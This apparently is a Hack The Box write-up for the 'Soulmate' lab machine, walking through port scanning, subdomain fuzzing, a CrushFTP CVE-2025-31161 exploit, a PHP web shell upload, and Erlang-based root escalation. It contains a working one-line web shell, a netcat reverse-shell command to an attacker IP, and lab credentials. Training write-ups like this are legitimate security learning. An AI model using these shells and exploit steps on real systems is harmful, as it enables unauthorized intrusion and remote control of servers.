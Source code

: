 ![Alt text for your image](images/image0.png)

# Soulmate HTB Walkthrough

This write-up documents the full exploitation process for the soulmate.htb machine, including reconnaissance, enumeration, exploitation, privilege escalation, and final root access.

-----

## 🔍 Reconnaissance

First, perform a full TCP port scan with Nmap to identify open services:

```bash
nmap -p- -Pn <target> -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && \
nmap -Pn <target> -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && \
nmap -T5 -Pn <target> -v --script vuln -oN nmap_vuln.txt
```

![Alt text for your image](images/image4.png)

-----

## 🌐 Web Enumeration

### Directory brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://soulmate.htb/FUZZ -s
```


![Alt text for your image](images/image14.png)

### Subdomain brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.84.47/ -H 'Host: FUZZ.soulmate.htb' -fs 154
```

![Alt text for your image](images/image20.png)

-----

## 📂 FTP Service (CrushFTP)

The domain `ftp.soulmate.htb` resolves to a CrushFTP web interface.


![Alt text for your image](images/image19.png)

The version string found:

```
11.W.657-2025_03_08_07_52
```


![Alt text for your image](images/image18.png)

This version is vulnerable to CVE-2025-31161:

[GitHub PoC – CVE-2025-31161](https://www.google.com/search?q=https://github.com/user/repo)

### Exploit usage:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```

![Alt text for your image](images/image6.png)


After exploitation, we can access with our new credentials:

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`


![Alt text for your image](images/image17.png)

Then we find the users and see that we can change their password, after checking i found that ben has access to the folder where the soulmate app is running so we exploit and login to that account

![Alt text for your image](images/image8.png)

![Alt text for your image](images/image5.png)


-----

-----

## ⚡ Web Shell Access

Upload a PHP webshell via ben's account to the webProd where we see the login.php, register.php:

```php
<?=`$_GET[0]`?>

```

![Alt text for your image](images/image17.png)

Then from the soulmate.htb webapp we see that we can rce

![Alt text for your image](images/image7.png)

Trigger a reverse shell:

```
http://soulmate.htb/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.15.30%204444%20%3E%2Ftmp%2Ff
```

![Alt text for your image](images/image15.png)


-----

## 🔧 Shell Stabilization

```bash
chmod +x socatx64.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

-----

## 📉 Deadend Enumeration

Some enumeration paths don’t yield privilege escalation.

We checked the config file where there was a hardcoded admin password

![Alt text for your image](images/image21.png)

![Alt text for your image](images/image13.png)

But after logging in we didn't find anything useful and any path to escalate

![Alt text for your image](images/image12.png)



-----

## 📜 Privesc search with linpeas

![Alt text for your image](images/image22.png)

An interesting and process we found:

```bash
cat /usr/local/lib/erlang_login/start.escript
```
![Alt text for your image](images/image2.png)

So we took a look at the binary running:

![Alt text for your image](images/image11.png)


![Alt text for your image](images/image23.png)


-----

## 🔑 Credential Discovery

Inside the configs we find credentials:

```
user: ben
pass: HouseH0ldings998
```

We switch user successfully:

```bash
su ben
Password: HouseH0ldings998
```

## 🏁 User Flag

The user flag is captured.

![Alt text for your image](images/image1.png)

-----

## 🧪 Root Exploitation with Erlang

Then based on the script we ssh into the  localhost 2222 port, based on what the script was doing

![Alt text for your image](images/image3.png)


![Alt text for your image](images/image3.png)

We then discover a shell, after research i found that it is an erlang shelll and also learnt the syntax to execute on the machine

By experimenting with Erlang command execution:

![Alt text for your image](images/image9.png)

Final command for root flag:

```erlang
os:cmd("cat /root/root.txt").
```

-----

## ✅ Conclusion

We gained access through:

1.  **Enumeration** → Identified CrushFTP.
2.  **Exploitation** → CVE-2025-31161 for account creation.
3.  **Shell** → Uploaded PHP webshell.
4.  **Privilege Escalation** → Erlang `os:cmd/1` execution.
5.  Captured both `user.txt` and `root.txt`.
